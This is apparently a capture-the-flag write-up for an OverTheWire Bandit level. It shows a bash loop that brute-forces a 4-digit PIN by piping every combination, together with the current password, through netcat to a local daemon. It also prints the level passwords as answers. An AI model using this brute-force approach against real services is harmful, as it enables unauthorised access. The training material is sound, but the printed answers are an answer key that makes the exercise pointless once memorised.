 # Level 24 - Level 25 ✔
- **Level Goal:**:<br>
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.<br>                                            
- **Login SSH:**<br>
User: bandit24<br>
Pass: UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ<br>
## Write-up: 📝<br>
In this chall, we learn how to bruteforce. You can reference here: [BruteForce from OWASP](https://owasp.org/www-community/attacks/Brute_force_attack) <br>
### Solution:<br>
- We have no command suggested here. It means we have to write a **bash script** again. With the description above, i just need to pass a string which combines of current 
password and a **PIN** code (which have to bruteforce). So here is my script:
`#! /bin/bash`
`for i in {0000..9999}`
`do`
`    echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i"`
`done | nc localhost 30002`
**Note**: Remember to put the `| nc localhost 30002` command after looping. Let the loop output **pipeline** through into netcat.  
#### Password for next level: uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG 


